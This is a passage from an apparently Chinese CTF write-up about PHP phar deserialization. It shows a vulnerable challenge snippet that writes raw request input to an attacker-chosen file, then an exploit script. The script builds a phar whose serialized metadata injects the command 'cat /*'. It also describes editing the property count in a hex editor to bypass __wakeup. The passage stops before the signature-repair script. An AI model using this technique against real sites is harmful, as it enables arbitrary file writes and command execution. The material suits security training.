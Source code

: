 ```php
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
} 多吃雪梨
```

分析一下，命令执行的条件很简单，让`God=true`和`user=admin`成立即可，所以我们要绕__wakeup()。

exp如下

```php
<?php
class story{
    private $user;
    public $pass;
    public $eating;
    public $God;
}                 

$a=new story();
$a->user='admin';
$a->God=true;
$a->eating='cat /*';
$phar = new Phar("hacker.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

将生成的文件，用010打开，复制到新建的十六进制文件
 修改属性数目绕过wakeup
 ![在这里插入图片描述](assets/ef228b59e1fa4f449d7ccb9f30a64f65.png)
 然后由于签名文件损坏要修复，注意到倒数第二行最后面的03
 可以知道为SHA256，修复脚本如下
